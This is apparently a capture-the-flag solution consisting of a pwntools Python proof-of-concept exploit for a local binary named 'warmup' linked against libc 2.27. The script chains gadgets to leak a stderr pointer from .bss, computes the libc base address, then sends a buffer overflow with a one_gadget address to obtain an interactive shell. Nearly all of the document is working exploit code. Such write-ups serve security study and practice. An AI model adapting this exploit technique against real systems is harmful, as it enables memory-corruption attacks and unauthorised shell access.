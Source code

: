 ## Poc

```python
#!/usr/bin/env python3
from pwn import *

def start(argv=[], *a, **kw):
  return process([exe] + argv, *a, **kw)

gs = '''
init-pwndbg
b *0x40057D
continue
'''.format(**locals())

exe = './warmup'
elf = context.binary = ELF(exe, checksec=False)
libc = ELF('./libc-2.27.so', checksec=False)
context.log_level = 'info'

# on .bss section
_8bytes_before_srderr = 0x601018 
f_write = 0x40055d

io = start()

payload = flat({
  0x30: [
    _8bytes_before_srderr,  # pop rbx
    f_write,                # ret
    # need it to control rip in second read
    # because 'add rsp, 0x30'
    b'\x00'*0x30,  # need set envp = 0 before call execve due to use one_gadget later

    _8bytes_before_srderr,  # pop rbx
    f_write,    # ret

    b'A'*0x30,  # due to add rsp, 0x30
    0,          # pop rbx
    0x40053d,   # ret to vuln func
  ]
})

io.sendafter(b'> ', payload)
io.send(b'V'*8)

io.recvuntil(b'VVVVVVVV')
libc.address = u64(io.recv(6).ljust(8, b'\x00')) - libc.symbols['_IO_2_1_stderr_']
log.success(f'libc base = 0x{libc.address:0x}')

io.send(b'V'*8)
# bof with one_gadget
io.sendafter(b'> ', b'A'*0x38 + p64(libc.address + 0x4f432) + p64(0)*10)
# p64(0)*10 to set argv = 0 before call excecve
io.interactive()
```
